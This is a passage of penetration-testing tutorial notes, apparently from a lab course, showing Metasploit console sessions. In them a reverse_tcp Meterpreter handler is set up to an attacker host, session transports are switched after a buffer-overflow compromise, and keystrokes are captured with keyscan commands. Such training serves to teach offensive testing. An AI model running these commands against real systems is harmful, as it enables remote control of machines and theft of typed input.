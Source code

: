 we can use Meterpreter payload transports716 to switch protocols after our initial compromise. We can list the currently available transports for the meterpreter connection with transport list.


Before we can take advantage of the new transport, we must set up a listener to accept the connection. We’ll do this by once again selecting the multi/handler module and specifying the same parameters we selected earlier.
With the handler configured, we can return to the meterpreter session and run transport next to change to the newly-created transport mode. This will create a new session and close down the old one.

```
meterpreter > background
[*] Backgrounding session 5...

msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST 10.11.0.4 LHOST => 10.11.0.4

msf5 exploit(multi/handler) > set LPORT 5555 LPORT => 5555

msf5 exploit(multi/handler) > exploit -j [*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.4:5555

msf5 exploit(multi/handler) > sessions -i 5 [*] Starting interaction with 5...
meterpreter > transport next
[*] Changing to next transport ...

[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.

[*] 10.11.0.22 - Meterpreter session 5 closed. Reason: User exit

msf5 exploit(multi/handler) >
[*] Meterpreter session 6 opened (10.11.0.4:5555 -> 10.11.0.22:50357)

msf5 exploit(multi/handler) > sessions -i 6 
[*] Starting interaction with 6...

meterpreter >

```

##### Post Exploitation

```
meterpreter > screenshot

meterpreter > keyscan_start 
Starting the keystroke sniffer ...

meterpreter > keyscan_dump 
Dumping captured keystrokes... ipconfig<CR>
whoami<CR>

meterpreter > keyscan_stop 
Stopping the keystroke sniffer... 
meterpreter >

```
Migrating process
